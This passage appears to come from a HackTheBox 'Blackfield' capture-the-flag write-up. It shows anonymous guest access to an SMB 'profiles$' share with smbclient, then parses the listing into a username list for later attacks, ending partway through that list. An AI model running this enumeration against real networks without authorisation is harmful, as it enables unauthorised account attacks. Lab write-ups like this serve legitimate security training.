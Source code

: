 ```
smbclient \\\\$IP\\profiles$ -U 'guest'%''
```

![](/assets/img/HTB/easy/Blackfield/smbclient.png)
- it look like names of users
- let take them and try to check for some attacks

```
smbclient \\\\$IP\\profiles$ -U 'guest'%'' -c 'dir'|tee dummydata.txt
```

```
cat dummydata.txt|sed 's/^  //g'|awk '{ print $1}' > users.txt
```
- the rest dummy i will clean by hand

```
cat users.txt
```

```
AAlleni
ABarteski
ABekesz
ABenzies
ABiemiller
AChampken
ACheretei
ACsonaki
AHigchens
AJaquemai
AKlado
AKoffenburger
AKollolli
AKruppe
AKubale
ALamerz
AMaceldon
```